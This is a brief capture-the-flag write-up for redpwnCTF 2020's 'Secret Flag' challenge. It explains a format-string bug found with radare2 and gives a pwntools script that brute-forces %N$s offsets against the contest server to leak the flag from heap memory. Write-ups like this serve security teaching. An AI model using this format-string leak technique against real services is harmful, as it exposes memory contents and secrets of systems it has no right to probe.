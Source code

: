 # Secret Flag

From the desc we know it's a format string. There's no symbol for main, so i opened it up in radare2. 

It opens mallocs a heap address, stores it on the stack, opens `flag.txt`, and reads it to that heap address. We can use the format specifier %s to read the flag by referencing this heap address. 

I didn't bother actually calculating the offset and just bruteforced it.

```python
from pwn import *
for i in range(30):
    tosend = f"%{i}$s"
    p = remote('2020.redpwnc.tf', 31826)
    p.recvlines(2)
    p.sendline(tosend)
    try:
        print(p.recvline())
    except:
        pass
    p.close()
```
